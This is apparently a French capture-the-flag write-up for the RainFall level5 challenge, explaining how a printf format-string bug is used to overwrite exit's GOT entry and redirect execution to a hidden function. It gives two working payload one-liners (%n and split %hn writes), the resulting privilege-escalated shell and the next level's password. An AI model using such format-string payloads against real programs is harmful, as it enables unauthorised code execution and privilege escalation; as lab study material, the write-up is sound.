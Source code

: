﻿Tout comme dans les deux exercices precedents, on va devoir jouer avec printf.
Ici on va vouloir rediriger l'execution de la fonction exit vers la fonction 'o'.

En testant je vois que le debut du buffer est au 4eme argument de printf.

Video interessante sur le sujet: [Global Offset Table (GOT) and Procedure Linkage Table (PLT) - Binary Exploitation PWN101](https://www.youtube.com/watch?v=B4-wVdQo040)

En debug avec gdb, on voit que le premier appel de 'exit' renvoie dans la section .plt (RX), 
qui fait un jump vers .got.plt (RW) qui contient l'addresse reelle de la fonction exit.  

INFO: Au premier appel d'une fonction d'une librairie linkee dynamiquement, l'addresse dans .got.plt renvoie vers 
la section .plt qui va appeler le linker dynamiquement pour obtenir l'addresse de la fonction et la stocker dans .got.plt.
Ainsi tous les futurs appels de la fonction iront directement a la bonne addresse et n'appeleront plus le linker.

On va donc vouloir ecraser l'addresse de exit dans .got.plt avec l'addresse de la fonction 'o'.
Et cela en utilisant '%n' de printf pour ecrire un nombre a une addresse donnee.

On peut donc dors et deja convertir l'addresse de 'o' en decimal pour avoir le bon nombre de bytes ecrits.  
0x80484a4 => 134513828 en decimal.

Il nous faut aussi l'addresse ou ecrire ce nombre. Avec gdb je vois que .plt fait un jump vers ds:0x8049838
On va donc ecrire dans cette addresse.
0x8049838 => '\x38\x98\x04\x08'

## Solution 1

On peut donc faire notre exploit:
1. [4] Dans le buffer on met l'addresse de 'o'
2. [4 + 8*2 = 20] On print 2 fois '%x' pour utiliser 2 arguments de la stack
3. [20 + 134513808] On print 134513808 characteres + on utilise un argument de la stack
4. [134513828] On print '%n' pour ecrire le nombre de characteres print dans l'addresse de exit

```bash
level5@RainFall:~$ python -c "print '\x38\x98\x04\x08' + '%8x'*2 + '%134513808x' + '%n'" > /tmp/payload5
level5@RainFall:~$ cat /tmp/payload5 - | ./level5
                             200
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Solution 2

L'adresse de o représente un nombre gigantesque pour être écrit par printf en nombre de caractère, potentiellement cela peut crasher. Nous allons donc écrire l'adresse en deux fois à l'aide de 2 * 2 octets au lieu de 4 octets d'un coup en séparant lower bytes et higher bytes (LOB et HOB) à l'aide de %hn qui n'écrit que le LOB de l'int pointé par %n:

>si HOB < LOB
>[adresse + 2][adresse]%[HOB - 8]x%[offset]$hn%[LOB - HOB]x%[offset + 1]

>si HOB > LOB
>[address + 2][address]%[LOB - 8]x%[offset + 1]$hn%[HOB - LOB]x%[offset]

ici: 0x0804 < 0x84a4 donc options 1
En little endian nous allons commencer à écrire 2 octets dans la dernière partie de l'adresse de exit puis 2 octets dans la première.
Nous convertissons 0x0804 et 0x84a4 en décimal 2056 et 33956 il faut enlever 8 octets pour les 2 adresses puis enlever le nombres d'octets déjà écrit (33956 - 2052) ce qui donne 2044 et 31904, donc on a:
```sh
level5@RainFall:~$ python -c 'print "\x40\x98\x04\x08\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/payload
level5@RainFall:~$ cat /tmp/payload - | ./level5

                                                                              b7fd1ac0
```
On dirai que nous avons un shell, essayons **id**:
```sh
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
Flag!

